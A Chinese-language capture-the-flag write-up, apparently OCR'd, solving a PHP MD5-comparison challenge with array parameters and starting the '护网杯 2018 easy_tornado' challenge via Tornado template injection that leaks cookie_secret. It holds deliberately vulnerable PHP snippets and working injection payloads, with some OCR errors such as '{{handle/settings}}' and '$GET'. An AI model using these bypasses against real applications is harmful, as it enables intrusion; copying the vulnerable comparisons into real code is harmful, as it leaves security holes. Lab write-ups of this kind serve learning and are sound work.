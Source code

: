 ```php
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

用数组即可：`?a[]=1&b[]=2` 

进入第三关：

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

虽然变成了严格比较，但是数组依然能绕过（因为md5解析数组都是NULL）：`param1[]=1&param2[]=2` 

最后得到flag：`flag{22d586ce-674e-44d8-af08-729a476d4f6a}` 

## [护网杯 2018]easy_tornado

参考：[2018护网杯(WEB)easy_tornado(模板注入)](https://www.cnblogs.com/xhds/p/12285121.html)

"/flag.txt"提示flag在"/fllllllllllllag"中

"/welcome.txt"返回"render"提示存在模板注入(?)

"/hints.txt"提示filehash的加密方式：

```php
md5(cookie_secret+md5(filename))
```

目标是拿到"/fllllllllllllag"的filehash，首先需要拿到cookie_secret。

tornado模板下传入：`{{handler.settings}}` 可以获取环境变量

```
/error?msg={{2*7}}

=> ORZ
(这算是注入成了?)
```

```
/error?msg={{handle/settings}}

=> {'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '39cedf08-4782-4456-b648-fa29f2c3aba9'}
```
